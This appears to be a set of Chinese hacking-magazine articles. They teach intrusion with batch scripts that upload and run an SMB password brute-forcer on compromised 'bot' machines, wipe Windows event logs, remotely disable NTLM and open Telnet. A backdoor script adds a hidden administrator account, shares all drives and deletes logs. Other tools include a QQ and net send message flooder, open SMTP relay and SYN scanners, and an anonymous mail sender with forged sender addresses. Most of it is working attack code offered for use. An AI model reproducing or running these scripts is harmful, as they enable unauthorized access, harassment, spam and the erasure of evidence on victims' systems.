有人问了，扫描肉鸡还用你介绍什么呢？谁不会啊？可大家别忘了，以前在杂志上介绍的都用自己的机器扫描，而我的信条是“安全第一”……这样，我们就得到了一批主鸡，最好在 5 台以上，以便我们把字典文件分成几份传给不同的肉机。总之，机器越多，可把密码文件分得越小，破解速度也就越快啦！

制作字典：大家还是可以用榕哥的字典工具，这里就不需要介绍了。如果你的肉鸡很多，可把字典分成很多份，然后让不同的肉鸡执行不同的字典，这样就可把许多肉鸡模拟成巨型机的速度。制作字典这部分还是有很多学问的，要多研究研究了。如果嫌麻烦，可直接用 X-SCAN 或流光自带的常用字典。

### 第二步 建立 IPC$ 连接

与肉机自动建立 IPC$ 连接后，把相关文件、程序全部送入每个肉鸡目录。从这里开始，需要我们编写 .BAT 文件来执行了。什么是 .BAT 文件？BAT 文件并不是通过编程得到的源程序，而是 Windows 系统的批处理文件。简单来说，就是把很多条 DOS 命令存在一个文本文件中，然后让这些命令一起执行。

现在，我们打开记事本，新建一个文本文件（.TXT），然后在里面输入：

```bat
NET USE \\%1\IPC$ %3 /USER:"%2"
COPY C:\NT_USER.DIC \\%1\ADMIN$
COPY C:\NT_PASS.DIC \\%1\ADMIN$
COPY C:\SMBCRACK.EXE \\%1\ADMIN$
```

这个文件每个命令独占一行，然后把这个 .TXT 文件存成扩展名为 .BAT 的文件（如：REMOTECOPY.BAT）。执行后就会把我们以后要用到的 NT_USER.DIC、NT_PASS.DIC、SMBCRACK.EXE 文件输入到肉鸡的 ADMIN$ 目录中。

当执行这个 .bat 文件时，在 DOS 中用命令：

```bat
REMOTECOPY.BAT IP USER PASSWD
```

系统会把 IP 自动赋值给 %1，USER 自动赋值给 %2，PASSWD 自动赋值给 %3。这样就完成了多个命令的操作。这样，只要执行一个命令，就可把很多命令执行，这也就是我的总体思想：利用 .BAT 文件把优秀的工具整合起来，打造自己的“黑客兵器”。


### 第三步 暴力破解

通过远程控制，让多台肉鸡对同一个目标主机进行暴力破解。这里，我引用 SMBCRACK 的 README 文件来说明它：SMBCrack 是为流光 5 开发的测试原型，和以往的 SMB（共享）暴力破解器不同，没有采用系统 API，而是使用 SMB 协议。

Windows 2000 可在同一个会话内进行多次密码试探。这个版本在扫描 Windows 2000 的密码时，速度大约是流光的 4-5 倍。Windows NT 4 没有测试过，速度可能会慢一点。V4 版修复漏报的问题。之所以用它的原因，也是因为它的速度快，是一把破解远程系统的尖刀！

大家看到了，这款工具虽然很优秀，但使用起来确实不方便：它只能探测一个用户名、一个 IP，这大大降低了破解成功率。更重要的是，这个软件只把破解结果在屏幕上显示，而不能直接输出到文本里。


通过 .bat 文件的修改，就能实现上面的要求。再来看 PSEXEC 在这里的用法，如果在本机执行：`PSEXEC.EXE IP COMMAND`，如：`PSEXEC.EXE 192.168.0.2 C:\WINNT\SERVER.BAT`，就会建立 CLIENT.BAT 文件，内容如下：

```bat
psexec.exe \\%1 c:\WINNT\sys_.bat %1 %2
```

再建立 SERVER.BAT 文件，里面的内容如下：

```bat
FOR /f %%i in (c:\WINNT\NT_USER.dic) do smb.exe %1 %%i c:\WINNT\NT_PASS.DIC 200
```

具体用法如下：把 SERVER.BAT 用 REMOTECOPY 的方法输入肉鸡上，然后在本地执行：`CLIENT.BAT IP1 IP2`。其中 IP1 是有 SERVER.BAT 的肉鸡，IP2 是要破解的目标主机。我们用 CLIENT.BAT 实现了参数传递给远端批处理。

其中“FOR”是用来重复执行后面的 `smb.exe` 命令；`/F` 表示从 `c:\WINNT\NT_USER.dic` 中逐行取值，把每行用户名依次赋给变量，再反复执行破解命令。可以说不会编程也能通过 BAT 实现类似编程的功能。

- 1. 上面的 CLIENT.BAT 是用来让肉鸡上的 SERVER.BAT 执行，轻松实现本地主机控制远程主机。
- 2. 解除 SMBCRACK 只能对单一用户名进行破解的限制：通过 FOR 循环批量读取 NT_USER.DIC 中的用户名并反复执行 SMB.EXE。

```text
ADMIN
ADMINISTRATOR
GUEST
USER
AAA
```

再把密码文件 NT_PASS.DIC 用密码字典工具生成，就可不断地破解，直到把所有的可能都试完，其他的不用管了。

## 第四步 安全撤离

获取结果后，自动清除肉鸡上的所有日志，删除 IPC$ 连接，安全撤离现场。很多菜鸟入侵之后，拍拍屁股就走人了，如果真被系统管理员发现，可不是开玩笑的。现在，我们用 ELSAVE.EXE 清除日志，ELSAVE 的用法如下：

```text
D:\Y>net use \\192.168.0.1\ipc$ /user administrator
The command completed successfully.
D:\Y>elsave -s \\192.168.0.1 -l "application" -C
D:\Y>elsave -s \\192.168.0.1 -l "system" -C
D:\Y>elsave -s \\192.168.0.1 -l "security" -C
```

执行后，成功清除应用程序日志、系统日志、安全日志。这样也很麻烦，要执行三次，现在我们还是用 .BAT 来把这三个命令一起执行。

建立 ELSAVE.BAT 文件，里面输入：

```bat
ELSAVE.EXE -S \\%1 -L "APPLICATION" -C
ELSAVE.EXE -S \\%1 -L "SYSTEM" -C
ELSAVE.EXE -S \\%1 -L "SECURITY" -C
NET USE \\%1\IPC$ /DEL
```

存好后，在 DOS 下执行 ELSAVE.BAT 192.168.0.1 就可清除 192.168.0.1 上面的日志了。如图6。


### 结语

综上，把上面的 .BAT 文件适当地合在一起，只要在本地执行一个命令，就会自动连接远程主机、自动上传文件、自动执行、自动清日志、自动断开连接，而且整个程序一共 200 多 K，非常小巧。

主程序：CLIENT.BAT，内容如下：

```bat
net use \\%1\ipc$ %3 /user:"%2"
copy nt_user.dic \\%1\admin$
copy %4 \\%1\admin$
copy smb.exe \\%1\admin$
copy SERVER.bat \\%1\admin$
psexec.exe \\%1 c:\WINNT\SERVER.bat %5 WINNT %4
elsave -s \\%1 -l "application" -C
elsave -s \\%1 -l "system" -C
elsave -s \\%1 -l "security" -C
net use \\%1\ipc$ /del
```

服务端程序：SERVER.BAT，内容如下：

```bat
for /f %%i in (c:\%2\nt_user.dic) do SMBCRACK.exe %1 %%i c:\%2\%3 200
```

然后把用户列表文件（NT_USER.DIC）、密码文件（NT_PASS.DIC）、本地执行远程主机命令程序（PSEXEC.EXE）、暴力破解程序（SMBCRACK.EXE）、清除日志程序（ELSAVE.EXE）和上面那两个程序放在一起。

如果现在有 192.168.0.1 肉鸡，用户名为 ADMIN，密码为空，想要破解密码的主机 IP 为 210.210.210.210，密码文件名为 NT_PASS.DIC。在本地执行 `CLIENT.BAT 192.168.0.1 ADMIN "" NT_PASS.DIC 210.210.210.210` 就会实现我们要实现的所有功能……

> 注意：文中出现的 BAT 文件，为讲解清晰，都是以各个功能的身份出现的；整合后的全部 BAT 文件及所用工具会在《黑客X档案》的光盘中找到，具体使用方法可以查光盘中的 README.HTM 文档。


好久没写文章，手都痒痒了，感觉该写点什么来解解闷。在网络上，QQ 已成了各位必不可少的工具，QQ 工具也成了大家开发的热点。今天我们就深入解析 QQ，教大家如何开发与 QQ 相关的软件。

在《黑客 X 档案》的增刊上，zhouqi 已经教大家编写了盗号软件，这里浪心就不多说了。

### 一、QQ 炸弹

所谓 QQ 炸弹，就是以 N 多 QQ 消息对对方 QQ 进行攻击，导致对方 QQ 断线。

好啦！废话少说，打开 VB6.0，建立工程，添加 TEXT、Command1、TIMER 控件。

调整位置如图 1，名称保持默认。注意 TEXT1，TEXT 为浪心的炸弹测试。

```vb
SendMessage attrib, WM_COMMAND, 1, 0
End If
End If
If attrib2 <> 0 Then
    Flawn = attrib2
    aaa = ChildWindowFromPoint(Flawn, 218, 317)
    If Form1.Text1.Text <> "" Then
        SendMessage aaa, WM_SETTEXT, 37, ByVal Form1.Text1.Text
        SendMessage attrib2, WM_COMMAND, 1, 0
    End If
End If
End Sub

Private Sub Command1_Click()
    Timer1.Enabled = False
End Sub

Private Sub Timer1_Timer()
    sendQQ
End Sub

Private Sub Form_Load()
    Timer1.Enabled = True
    Timer1.Interval = 1000
End Sub
```


图 1

在窗体，选择 Form1，点击右键添加模块，名字默认就好。在模块里添加以下代码：

```vb
Option Explicit
Declare Function ChildWindowFromPoint Lib "user32" (ByVal hwnd As Long, ByVal Xpoint As Long, ByVal Ypoint As Long) As Long
Public Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Public Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
Public Const WM_COMMAND = &H111
Public Const WM_SETTEXT = &HC

Public Sub sendQQ()
    Dim attrib, attrib2, Flawn, aaa As Long
    attrib = FindWindow(vbNullString, "发送消息")
    attrib2 = FindWindow(vbNullString, "对话模式")
    If attrib <> 0 Then
        Flawn = attrib
        aaa = ChildWindowFromPoint(Flawn, 200, 150)
        If Form1.Text1.Text <> "" Then
            SendMessage aaa, WM_SETTEXT, 13, ByVal Form1.Text1.Text
        End If
    End If
End Sub
```

运行程序，对要攻击的 QQ 目标头像狂点鼠标，怎么样？炸弹是不是疯狂地攻击了。你还可以将与他的聊天改为对话模式，然后运行程序，是不是自动攻击了？点 Command1 停止攻击。图 2 是自动攻击的抓图。


图 2

## 黑客编程

下面，我列出表格来为大家解释上面调用的 API（表1、表2、表3）：

| 表格 | API | 说明项 |
|---|---|---|
| 表1 | `ChildWindowFromPoint` | 声明、返回值、参数：`hWnd`、`xPoint`、`yPoint` |
| 表2 | `FindWindowA` | 声明、说明、参数：`lpClassName`、`lpWindowName` |
| 表3 | `SendMessageA` | 声明、返回值、参数：`hWnd`、`wMsg`、`wParam`、`lParam` |

```vb
Public Const WM_COMMAND = &H111
Public Const WM_SETTEXT = &HC
```

这些常数的值，我们可通过 API 浏览器来获得……大家可能对下面代码里的“137”“1”这样的数据感到疑问：你是怎么获得的？

```vb
SendMessage aaa, WM_SETTEXT, 137, ByVal Form1.Text1.Text
SendMessage atrri2, WM_COMMAND, 1, 0
```

其中，“137”是 QQTEXT 的句柄 ID，“1”是 QQ 发送消息的句柄 ID。那么如何获得句柄呢？这里我们要借助一个工具——WinSpy（图3）。


我们看见 EDIT（消息输入处）句柄为 3688，BUTTON（发送按钮）句柄为 2860。可是如何才能获得句柄 ID 呢？

唉，我也是个懒人，一开始我也想找现成的工具，可就是没找到，看来又要自己编了。

打开 VB，加入 3 个控件：Text、Command 和 Label，调整其位置如图4。


加入如下代码：

```vb
Private Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (ByVal hwnd As Long, ByVal nIndex As Long) As Long
Const GWL_ID = (-12)

Private Sub Command1_Click()
    Label1.Caption = GetWindowLong(Text1.Text, GWL_ID)
End Sub
```

运行程序，在 Text1 写入我们刚获得的句柄（图5）。


我们可以清楚地看到，获得了 TEXT 的句柄 ID。到这里，炸弹部分解析完毕。

### 二、自动聊天

所谓自动聊天，就是当弹出消息后，自动按下“回消息”，再输入文本，再自动发送。这个程序与上面的 QQ 炸弹类似。

运行 VB6.0，新建程序，添加 1 个 Text、2 个 Command、1 个 Timer，调整其位置，如图6。


建立一个模块……自动截图查看消息、自动点击回消息、调用函数写入数据并发送。OK，废话少说，直接看代码。

窗体部分代码：

```vb
Private Sub Command1_Click()
    Timer1.Enabled = False
End Sub

Private Sub Command3_Click()
    Timer1.Enabled = True
End Sub

Private Sub Form_Load()
    ' ...
    Timer1.Interval = 1000
End Sub

Private Sub Timer1_Timer()
    sendQQ2
End Sub
```

模块部分代码：

```vb
Option Explicit
Declare Function ChildWindowFromPoint Lib "user32" ...
Public Declare Function FindWindow Lib "user32" Alias "FindWindowA" ...
Public Declare Function SendMessage Lib "user32" Alias "SendMessageA" ...
Public Const WM_COMMAND = &H111
Public Const WM_SETTEXT = &HC

Public Sub sendQQ()
  ' ...
End Sub

Public Sub sendQQ2()
  ' ...
End Sub
```

好了，我们发现其实增加了一个 `sendQQ2`。这个程序实现了对“查看消息”窗口的拦截……图片实在不好抓，大家可以想象效果。

### 三、其他相关

有了上面 2 个例子的基础，相信你大概对 QQ 有所了解了！现在有种 QQ 消息机病毒，肆意横行……通过这次全面解析 QQ，相信也激发了你开发的灵感……以上程序在 Windows98 + VB6.0 + QQ2000c Build 0305 环境下测试通过。

## 用 C# 编写 SMTP 服务器扫描程序


发邮件通常有两种方式：Web 和 SMTP。Web 较慢，SMTP 方式虽方便，但现在很多网站都要身份验证（user+pass）……本文如有不足之处，还望大家指正。

### 1. C# 中 IP 地址的表达方式（string、IPAddress、long）及相互转换

一般来说，程序中输入的 IP 都是字符串形式，如“123.1.1.1”……`socket` 类的 `connect()` 需要 `IPAddress` 类型（或 `EndPoint` 类型）参数，转换方法为：

```csharp
String s1 = "123.1.1.1";
String s2 = "123.1.1.20";
IPAddress ip_start;
IPAddress ip_end;
ip_start = IPAddress.Parse(s1);
ip_end   = IPAddress.Parse(s2);

s1 = ip_start.ToString();
```

有了开始 IP 和结束 IP，如何计算它们之间的 IP 个数？如何在扫描时使 IP 自动增加？……C# 中可利用 `IPAddress.NetworkToHostOrder()` 和 `IPAddress.HostToNetworkOrder()`。

```csharp
long ip_start_net;
ip_start_net = ip_start.Address; // 它是网络类型(long)

ulong start1 = (ulong)IPAddress.NetworkToHostOrder((int)ip_start.Address);
ulong end1=(ulong)(IPAddress.NetworkToHostOrder(ip_end.Address));  // 结束IP值
ulong s1=(start1>>32);  // IP为四字节32位
ulong e1=(end1>>32);
uint ipnum=(uint)(e1-s1+1);  // 得到IP个数
```

实现扫描时 IP 地址的递增：

```csharp
ulong currentip;
IPAddress ip_current;
currentip=(ulong)(IPAddress.NetworkToHostOrder(ip_start1.Address));
for(int pp=0; pp<ipnum; pp++)
{
    ip_current=new IPAddress(IPAddress.HostToNetworkOrder((long)currentip));
    // ip_current用于socket.connect()等方法中
    currentip=((currentip>>32)+1)<<32;  // 实现IP递增
}
```

### 2. 利用 TcpClient 派生类实现 SMTP 探测

SMTP 是种简单的邮件协议（协议详细可参考 RFC 821），简单探测过程如下（c：客户端，s：SMTP 服务器端）：

```text
c: 连接 s 的 25 号端口
   连接成功
s: 发送欢迎信息
c: 接收信息，发送 mail from:<...>
s: 回送“250”表示允许匿名发送；回送其他信息表示不允许继续发送
c: 接收；若是 250，继续发送 rcpt to:<webmaster@sina.net>
s: 收到 rcpt 后检查目标主机是否存在，回送 250 表示存在，否则拒绝
c: 收到 250 说明此服务器允许匿名发送到指定主机；继续测试可发送多个 rcpt to:<...>
```

用 `TcpClient` 类的 `connect()` 实现连接；用 `NetworkStream` 和 `StreamReader` 网络流实现数据的发送和接收：

```csharp
myTcpClient sender = new myTcpClient();
sender.Connect(ip_current,25);   // 连接服务器
NetworkStream ns = client.GetStream();
StreamReader sr = new StreamReader(client.GetStream());
string input = "MAIL FROM:<...>\r\n";
byte[] outbytes = System.Text.Encoding.ASCII.GetBytes(input.ToCharArray());
ns.Write(outbytes,0,outbytes.Length);
```

```csharp
cosededole.WriteLine(input);
bb=sr.ReadLine();   // 接收
cosededole.WriteLine(bb);
```

### 3. 利用 Thread.Timer 和多线程实现快速扫描

上面的程序已经可拿来扫描了，但有个很大的缺陷——扫描速度很慢。当目标主机端口不可用时，`sender.connect()` 方法将花费较长等待连接。文中用 `Thread.Timer` 控制 `connect()` 的等待时间，在 `connecttime` 毫秒后查看套接字状态，如果没连上则关闭套接字，扫描新 IP；同时采用多线程扫描多个 IP。

```csharp
class myTimer
{
    public Timer timer;
    public int count=0;

    myTimer t=new myTimer();
    TimerCallback timer_back=new TimerCallback(hello);
    Timer timer_call=new Timer(timer_back,timer,connecttime,connecttime);

    sender.connect();  // 定时器开启后马上执行connect()

    public void hello(object oo)  // 定时器触发回调
    {
        myTimer s=(myTimer)oo;
        if(!sender.life)  // 如果没有连接上
        {
            sender.Close();
            s.timer.Dispose();
        }
        else
        {
            s.timer.Dispose();
        }
    }
}
```

关于 Timer 的详细用法和说明可参考 SDK 文档。注：代码中 `if(!sender.life)` 这行看似奇怪，因为 `TcpClient` 类本身没有 `life` 属性；这里 `sender` 为从 `TcpClient` 派生而来，`life` 表示套接字是否处于连接状态。

```csharp
public class myTcpClient:TcpClient   // 从TcpClient派生myTcpClient
{
    public myTcpClient():base(){}
    public myTcpClient(string hostname,int port):base(hostname,port){}
    public bool life;
}
```

```vb
get
    return this.Active;   // 获取 TcpClient 的 Active 属性
}
// end class myTcpClient
```

这样，我们就可直接在 `sender` 中利用 `life` 属性查看是否处于连接状态！多线程就不讲了（嗯嗯，偶只会开、关线程），还要涉及各线程之间的同步问题（利用 Mutex 同步）……最后，在各个关键词句（尤其是网络函数）前加上一系列 `try` 进行异常处理，保证长时间扫描不中断。

程序在扫描结束后才将扫描结果写入文件，也可改为边扫边写。程序运行效果尚可，线程数 20~100 时准确率不错。扫描结果保存到 `D:\run\smtpserver.txt`，记录了可用 SMTP 服务器等信息。文中还说明了一些实现取舍与改进空间。

> （本文的源代码光盘中有收录）

## 打造自己的文件夹伪装程序

姜超

各位菜鸟经常用别人的软件，也想自己编写有用的小工具。本文介绍一个简单实用的小程序：可把文件夹伪装成回收站，达到隐藏目的。

- 编程环境：VB 6.0
- 操作系统：Win9x
- 编程内容：将文件夹伪装成回收站，避免被直接打开

首先打开 VB 6.0，新建标准 EXE，在窗体上创建 `Dir1`、`Drive1`、`Command1`、`Command2`、`Command3` 等控件。


图 1

```vb
' Private Sub Drive1_Change()
On Error GoTo e
Dir1.Path = Drive1.Drive
...
Private Sub Command1_Click()
On Error Resume Next
Open Dir1.Path & "\desktop.ini" For Output As #1
Print #1, "[.ShellClassInfo]"
...
End Sub

Private Sub Command2_Click()
Shell("attrib -r " & PathToOpen, vbHide)
End Sub
```

```vb
Private Sub Command3_Click()
GotoVal = Me.Height
For GoinTo = 1 To GotoVal
  DoEvents
  Me.Height = Me.Height - 10
Next
...
End Sub
```

以上代码是该软件的基本步骤，可将文件夹隐藏为“回收站”。如需进一步伪装效果，可在窗体中增加更多控件与功能。


图 2

## 批处理的几则高级应用


红衣刺客

### 1. 用批处理制作一款远程开启 Telnet 的工具

大名鼎鼎的 TelnetHack，我想“黑道”上的朋友都应该知道，它是款远程开启 Telnet 的工具。其实，用批处理照样可制作一款远程开启 Telnet 的工具。编这个批处理程序之前，我们首先要对 NTLM 验证有所了解……同时，我们还需用到一个小工具——Psexec（光盘中有收录）。

把下面的代码保存为 `opentelnet.bat`。

```bat
@echo ***Opentelnet 2.0***
@echo 使用方法:
@echo opentelnet.bat ip user password
@echo opentelnet.bat 肉鸡ip Admin组的用户名 密码
@echo **************
@echo 正在连接 \\%1...
@net use \\%1\ipc$ %3 /user:"%2"
@if errorlevel 1 goto help
@echo **************
@echo 成功连接上 \\%1 !
@echo 复制NTML.bat 到 \\%1\admin$\system32 目录
@copy NTML.bat \\%1\admin$\system32
@if errorlevel 1 goto over
@echo **************
@echo OK! 复制成功
@echo **************
@echo 正在在 \\%1 上执行 NTML.bat
@psexec -d \\%1 c:\winnt\system32\NTML.bat
@echo **************
@echo 成功开启 telnet!
@echo BINGO!!! Yeah!!
@echo 你可以用 telnet %1 来登陆肉鸡
@net use \\%1\ipc$ /delete
@echo 正在写入安装报告，请稍后
@date /t >>telnetJJ.txt
@time /t >>telnetJJ.txt
@echo 成功开启telnet! >>telnetJJ.txt
@echo 肉鸡IP:%1 >>telnetJJ.txt
@echo 用户名:%2 >>telnetJJ.txt
@echo 密码:%3 >>telnetJJ.txt
```

```bat
@echo 写入安装报告---OK!
@echo *** Opentelnet2.0 By 红衣刺客 ***
@echo ******** Welcome to ... ********
@echo QQ:...

:help
@echo ****************
@echo Connecting %1 ERROR! (
@echo ****************

:over
@echo ****************
@echo 肉鸡没有开共享! 上传文件失败 :(
@echo ****************
```

再建立一个 `NTML.bat` 文件，代码如下：

```bat
@net stop telnet
@echo 3 > c:\NTML.txt
@echo 7 >> c:\NTML.txt
@echo y >> c:\NTML.txt
@echo 0 >> c:\NTML.txt
@echo y >> c:\NTML.txt
@echo 0 >> c:\NTML.txt
@echo 0 >> c:\NTML.txt
@find "" < c:\NTML.txt
@net start telnet
@del c:\NTML.txt
@del c:\winnt\system32\NTML.bat
```

> 使用方法：`opentelnet.bat Admin组的用户名 Admin组的密码`

> 注意：一定要把 `opentelnet.bat`、`NTML.bat` 和 `psexec.exe` 放在同一目录下，运行时先切换到该目录再执行。

我们抓取其中较重要的几段代码简单分析一下。

```bat
net use \\%1\ipc$ %3 /user:"%2"   // 建立 ipc$ 连接
if errorlevel 1 goto help         // 如出错则跳转到 help
copy NTML.bat \\%1\admin$\...     // 复制批处理到目标系统目录
```

```bat
...system32  // 把 NTLM.bat 复制到肉鸡的 system32 目录下
if errorlevel 1 goto over
psexec -d \\%1 c:\winnt\system32\NTLM.bat
net use \\%1\ipc$ /delete
###########
net stop telnet
echo 3 >c:\NTLM.txt
echo 7 >>c:\NTLM.txt
echo y >>c:\NTLM.txt
echo 0 >>c:\NTLM.txt
echo y >>c:\NTLM.txt
echo 0 >>c:\NTLM.txt
echo 0 >>c:\NTLM.txt
tlntadmn <c:\NTLM.txt
net start telnet
###########
```

```bat
@echo 0 >>c:\NTLM.txt
@echo 4 >>c:\NTLM.txt
@echo 0 >>c:\NTLM.txt
@tlntadmn <NTLM.txt
@net start telnet
@del c:\winnt\system32\logfiles\w3svc1\*.* /f /q
@del c:\winnt\system32\logfiles\w3svc2\*.* /f /q
@del c:\winnt\system32\config\*.evt /f /q
@del c:\winnt\system32\dtclog\*.* /f /q
@del c:\winnt\*.txt /f /q
@del c:\winnt\*.log /f /q
@del c:\NTLM.txt
@del backdoor.bat
###########
```

这段代码起到了关键性作用，它取消了 NTLM 验证并开启了 Telnet 服务。

### 2. 用批处理制作后门

呵呵，通过分析你马上就会明白，其实原理十分简单。只要稍微改进一些，我们还可用批处理制作一个后门程序。

### 一般的后门有以下几个功能：

- 1. 建立一个权限为管理员的用户
- 2. 开启 Telnet，有指定的 Telnet 端口。
- 3. 共享其硬盘
- 4. 清除日志

下面我们就来实现，把下面的代码保存为 backdoor.bat。

```bat
###########
Rem ---Backdoor V1.0
Rem Written by 红衣刺客
@net share ipc$
@net share admin$
@net share C$=c:\
@net share D$=d:\
@net share E$=e:\
@net share F$=f:\
@net user admin$ /add
@net localgroup Administrators admin$ /add
@net stop telnet
@echo 3 >>c:\NTLM.txt
@echo 7 >>c:\NTLM.txt
@echo y >>c:\NTLM.txt
@echo 0 >>c:\NTLM.txt
@echo y >>c:\NTLM.txt
@echo 8 >>c:\NTLM.txt
@echo y >>c:\NTLM.txt
@echo 711 >>c:\NTLM.txt
@echo y >>c:\NTLM.txt
...
```

我们再抓取几句重要的代码简单分析：

```bat
net share 共享名称=硬盘盘符    // 可起到共享硬盘的作用
net user admin$ /add            // 建立用户
net localgroup Administrators admin$ /add  // 把 admin$ 用户加入管理员组
```

其中还有一段代码就是开启 Telnet 服务的，和上一个例子差不多，只是把端口改成了 711。这样就不容易被管理员发现，也不会怕同行扫到，你可以把“echo 711 >>c:\NTLM.txt”中的 711 改为自己喜好的端口。


### 3. 用批处理制作消息轰炸器

前几天闲来无事，写了一个简单的消息轰炸器。利用的是 Win2K 的信使服务（即 net send 命令，如果大家不了解，可看看 Windows 的相关帮助）。把下面的代码保存为 send.bat。

```bat
###########
@echo Win2000消息轰炸器 V1.2
@echo *************
@echo Written by 红衣刺客
@echo *************
@echo Welcome to www.niuzu.net
@echo *************
@SET COMPUTERNAME=黑客
@echo 轰炸中
:start
@net send %1 %2
@if errorlevel 1 goto end
goto start
:end
@echo 发送失败
```

## 黑客编程

```text
send.bat 目标IP 发送内容

示例：
send.bat 192.168.0.1 哈哈!你被黑了!

这样就会向目标主机循环发送消息“哈哈!你被黑了!”。
```

这句代码是很关键的一句，它把电脑的名称改成了“黑客”，当然大家可随意修改。如果没有这一句，在网吧或学校机房捣蛋的话，一定会被 K 的很惨哦（呵呵，不过用完之后一定要再改回来）！其实批处理的奥秘远不止这些，我们还可以用批处理来制作病毒。我最近又写了一个 IPC Worm（IPC蠕虫），但在这里就不做分析了，说得太多，就限制了大家的思维。

```text
SET COMPUTERNAME=黑客
```

用过 nmap 的“-sS”参数和 X-SCAN 的 SYN 选项的朋友应该知道，“-sS”参数就是 SYN 扫描。

传统的 TCP 扫描器直接尝试与目标主机进行连接来判断目标主机端口的开放，每个端口都尝试连接一次。这样的扫描有明显缺点：会在目标主机上留下大量日志（里面包含你的 IP 地址），不能很好地隐藏自己的踪迹。而 SYN 扫描没有与目标主机进行连接，其原理是利用建立连接的第一步（TCP 三次“握手”）先向目标主机某端口发送 SYN 标志请求连接。若端口开放会返回 ACK，若端口关闭会返回 RST。由于没有真正建立连接，这样就可躲过许多日志软件的记录（当然不能是全部）。

SYN 扫描的实现大体分两步：  
（1）建立原始套接字，用来发送原始报文；  
（2）同样建立原始套接字接收目标主机返回报文，读取 flag 标志判断端口开放情况。


```c
INVALID_SOCKET
struct sockaddr_in dest;
// SOCK错误处理函数
void CheckSockError(int iErrorCode, char *pErrorMsg)
{
    if(iErrorCode==SOCKET_ERROR)
    {
        printf("%s Error %d\n", pErrorMsg, GetLastError());
        closesocket(sockRaw);
        ExitProcess(-1);
    }
}
```

```c
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <time.h>
#include <mstcpip.h>
#pragma comment(lib, "ws2_32.lib")
#define SEQ 0x28376839
char *DEST_HOST;
int DEST_PORT;
int DEST_PORTEND;
clock_t start,end; // 程序运行的起始和结束时间
float costtime; // 程序耗时
```

此处省去，具体请参考光盘压缩包中的 synscan.cpp 源文件。

```c
// IP解包函数：判断目标主机端口开放情况
bool DecodeIPHeader(char *buf, int bytes)
{
    IP_HEADER *iphdr;
    TCP_HEADER *tcphdr;
    unsigned short iphdrlen;
    iphdr = (IP_HEADER *)buf;
    iphdrlen = sizeof(unsigned long) * (iphdr->h_lenver & 0xf);
    tcphdr = (TCP_HEADER *)(buf + iphdrlen);
    ...
    printf("Cost time: %f", costtime); // 显示耗时
}
```

此处省去 TCP 和 IP 头的结构（可参考以前的 SYN Flood 程序）。// 建立原始套接字，用来发送数据报文。

```c
SOCKET sockRaw = INVALID_SOCKET, sockListen;
```

```c
(sockRaw);
WSACleanup();
return 0;
}
```

```c
float costtime;   // 程序耗时
...
// 此处省略中间代码，完整代码请参见光盘压缩包里的 tcp.txt
costtime = (float)(end - start) / CLOCKS_PER_SEC;
// 转换时间格式
printf("Cost time:%f Sec", costtime);  // 显示耗时
WSACleanup();
```

下面是传统的利用 TCP connect() 方法扫描，大家可以比较比较。因为细节地写，有许多 bug。编译后要利用“tcpscan IP startport endport”进行扫描否则会出错。例如：**tcpscan 218.14.111.111 1 100**（记住起始端口和终止端口之间没有“-”）

```c
//======== TCP connect()扫描源代码 ========
// 显然 TCP connect()扫描并不需要自己填充数据包，比较容易实现。

#include <winsock2.h>
#include <stdio.h>
#include <time.h>   // 计时需要用到的头文件
#pragma comment(lib, "ws2_32.lib")
#include <time.h>   // 计时需要用到的头文件
clock_t start, end; // 程序运行的起始和结束时间
```

以上代码在 Windows2003 + VC6.0 下编译成功（光盘中有编译好的 synscan.exe 和 tcpscan.exe）。由于 SYN Scan 程序没有利用多线程进行扫描，所以速度不算很快。但比 TCP 的 connect() 扫描快许多了。大家可编译那个利用 tcp connect() 的扫描器来做个比较。其实笔者也想到利用多线程，但搞了一整天也不明白 CreateThread 函数中的参数是如何利用结构传递到线程函数的。另，SYN Scan 程序只能用在 WinNT/2000/XP/2003 上。因为系统的限制，Win9x 程序不能自己填充数据。


在网络高度发达的今天，电子邮件在我们的生活中扮演着越来越重要的角色。但是由于垃圾邮件的泛滥，造成我们的网络拥挤，很多正常用户的邮件收发不正常，严重影响了正常的生活和工作。大家的邮箱也一定收到过很多垃圾邮件，比如色情、反动的信息，更多的则是广告。那么你们是否对这些垃圾邮件是怎么发送的感兴趣呢？下面我们就来讲讲垃圾邮件发送的机理，并自己动手用 Perl 来打造属于我们自己的匿名邮件发送器。

```text
...
250 root@whitehouse.gov ... Sender OK
rcpt to:webmaster@whitehouse.gov   // 这里标识接收者的标准地址
250 webmaster@whitehouse.gov ... Recipient OK
data   // 下面是邮件的具体内容部分
354 Enter message, end with "." on a line by itself
Just a test, don't reply it!   // 这行就是具体的邮件内容
.   // 注意，邮件写完要以点号表示结束
250 Message accepted for delivery
```

## 一：机理

首先我们来模拟一下邮件发送的过程，下面是发送邮件的一次记录，发信服务器是不需要验证的，至于如何查找这样的发信服务器，大家可以去我的站点参考文章《垃圾邮件——核！》。在 telnet 到发信服务器之前，我们先打开回显功能，要不然后是模拟操作的。这样来，在命令行下输入 telnet，然后输入：set local_echo 就可以了，然后 quit，接下来我们登入到发信服务器：

就这样，一封邮件就成功地发送出去了，简单吧？当然我们这里用的发信服务器是不需要验证的。

## 二：用 Perl 来编写匿名邮件发送器

上面我们已经简单地把邮件发送的过程讲了一下，那么如何编写程序来实现呢？其实很简单。下面我们对核心代码进行分析和解释。我们需要定义四个参数：一是邮件发送服务器 server，二是发送者 Email 地址 sender，三是邮件接收者的 Email 地址 rcpt，四是邮件内容 message，5 是连接发信服务器的参数 remote。邮件发送服务器打开的端口是 25，通讯方式是 Tcp 的，这里我们在 remote 里进行定义。参数已经弄完了，接着就开始编写 Perl 程序了。代码如下，并有详细的解释，相信大家一定能懂。

```text
telnet 61.xxx.xxx.xxx 25   // telnet到发信服务器的25端口
220 zj.server ESMTP Service ready at Wed, 23 Jul 2003 ...
helo zj-server   // 客户端向对方邮件服务器发出的标识自己身份的命令
250 zj.server Hello zj.server [xx.xx.121.74], pleased to meet you // 成功得到回应
mail from:root@whitehouse.gov   // 这里标识发送者的邮件
```

```perl
#! /usr/bin/perl
# Anonymous Mail Sender v1.0
# By 欲望之翼 webmaster@longker.com
use IO::Socket;
if (!$ARGV[2]) {
  print "Anonymous Mail Sender v1.0\n";
  print "Program intended to send mail anonymously\n";
